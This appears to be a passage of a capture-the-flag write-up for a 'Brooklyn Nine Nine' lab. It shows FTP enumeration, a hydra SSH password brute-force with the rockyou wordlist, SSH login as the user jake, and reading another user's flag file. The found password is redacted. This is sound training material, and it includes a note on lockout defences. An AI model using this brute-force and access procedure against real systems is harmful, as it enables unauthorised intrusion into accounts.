 Now let's list if there are any hidden files in this FTP server:
```
ls -lah
229 Entering Extended Passive Mode (|||28259|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```

Let's get the text file [note_to_jake.txt](./brooklyn99_note_to_jake.txt) that we spotted during the enumeration with `nmap`.
```
get note_to_jake.txt
```
Now we have it on our machines, let's see the content
```
cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

So, we got our first clue! The users could be `amy`, `holt` and `jake`. We can suspect that we need to find out password for the user `jake`, which is weak.

# Path 1
## Brute-force credentials to get SSH access
Let's use `hydra` tool to brute-force credentials for user `jake`
```
hydra -l jake -P /opt/wordlists/rockyou.txt ssh://10.10.235.234
```
Output:
```
[22][ssh] host: 10.10.235.234   login: jake   password: <intentionally_removed_from_writeup>
```
A protection against brute-force attack is to set up keys and have a lockout mechanism. Now let's set up SSH connection to the server.
```
ssh jake@10.10.235.234
```
Let's find the flag:
```
find /home -name ".*.txt"
```
This didn't give me much information. Let's check what other users do we have in this server. We can find two other users: `amy` and `host`. Maybe the user flag is in Holt's folder, let's check it out:
```
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
```
